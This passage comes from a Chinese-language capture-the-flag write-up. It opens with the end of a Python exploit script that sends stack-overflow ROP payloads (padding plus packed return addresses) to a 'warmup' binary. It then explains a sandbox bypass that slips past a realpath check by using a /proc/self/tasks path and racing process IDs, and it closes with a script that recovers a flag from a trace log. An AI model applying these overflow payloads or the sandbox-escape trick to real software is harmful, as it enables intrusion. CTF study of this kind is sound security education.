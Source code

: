 ```
r.send(payload)
payload = 'D'*0x20 + p32(0x080480D8) + 'DDDD' * 3 + p32(0x08048122)
r.send(payload * 3)
#send flag
payload = 'C'*0x20 + p32(read) + p32(0x0804815A) + p32(0) + p32(data) + p32(len(flag)) + flag
r.send(payload)
# eax = 5
payload = 'D'*0x20 + p32(read) + p32(add_esp) + p32(0) + p32(buf) + p32(5) + 'd'*5
r.send(payload)
print r.recv(1024)

```

0x09 Sandbox(Exploit)
=====================

* * *

这道题给了warmup的sandox程序。逆向分析发现他通过ptrace限制了warmup只能调用open，read，write，alarm，exit，mmap，mprotect这些系统调用。并且open的第一个参数只能是”/home/warmup/flag”，但是这个处理逻辑可以绕过：

当realpath的的第一个参数这个文件不存在的时候返回NULL。将文件地址写成“/proc/self/tasks/7777/../../../../home/sandbox/flag”，然后不断连接生成进程，当warmup的pid为7777时，sandbox的realpath调用返回NULL，同时warmp成功open了flag，就可以读取flag了。

![p18](http://drops.javaweb.org/uploads/images/0dbc7bdf7f0cd77d0e0cd893e6d96ffd57212df0.jpg)

0x0A Trace(Reverse)
===================

* * *

题目给了一个trace log。首先通过grep jal可以得到所调用的所有函数的起始地址，接着grep jr r31得到函数的结束地址，总共3个函数：00400770，004007d0，00400858，分别为strlen，strcpy和一个递归的快排。从log中根据地址剔去这几个函数的代码得到主函数，主函数首先生成了a-zA-Z0-9{} + flag这样的一个字符串，然后对其进行快排，接着对结果开始对比是否前一个字符串是否和后面的相同。

分析log可以手工将后面对比是否相同的代码分解成几个基本块，接着写脚本分析基本块得到flag包含的字符：0111355555699cfkllmrrstt{}。

```
#!/usr/bin/python2
import string
start = 0
table = string.digits + string.ascii_uppercase + string.ascii_lowercase+ '{}'
result = ''
i = 0
with open('./tail.log') as f:
    for line in f:
        if '[INFO]00400b90' in line:
            flag = True
        elif '[INFO]00400bbc' in line:
            flag = False
            i += 1
        elif '[INFO]00400bc8' in line and flag:
            result += table[i]
print result

```
